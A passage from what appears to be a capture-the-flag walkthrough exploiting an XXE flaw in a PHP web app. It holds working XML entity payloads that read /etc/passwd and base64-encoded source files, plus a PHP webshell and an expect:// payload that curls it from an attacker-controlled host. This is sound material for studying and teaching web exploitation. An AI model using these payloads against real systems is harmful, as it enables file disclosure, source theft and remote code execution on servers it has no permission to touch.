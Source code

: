     ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE message [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
      <root>
        <name>
          20
        </name>
        <search>
          &xxe;
        </search>
      </root>
    ```
  
  * This also works, and we can see the ```/etc/passwd``` file, which includes users named 'cyber' and 'yash'

  * We can try for RCE now - this requires the PHP ```expect``` module to be installed & enabled (```$IFS``` is used for spaces to avoid breaking XML format):

    ```sh
    echo '<?php system($_REQUEST["cmd"]);?>' > webshell.php

    python3 -m http.server 8000
    ```

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE message [
      <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'10.10.223.78:8000/webshell.php'">
    ]>
      <root>
        <name>
          20
        </name>
        <search>
          &xxe;
        </search>
      </root>
    ```
  
  * This does not work, so we will have to continue with reading files remotely

  * For reading the source code, ```file:///``` operations do not work as they may not be in XML format; for such cases, we can use wrapper filters to encode in base64 (only for PHP apps):

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE message [
      <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=forms.php">
    ]>
      <root>
        <name>
          20
        </name>
        <search>
          &xxe;
        </search>
      </root>
    ```
  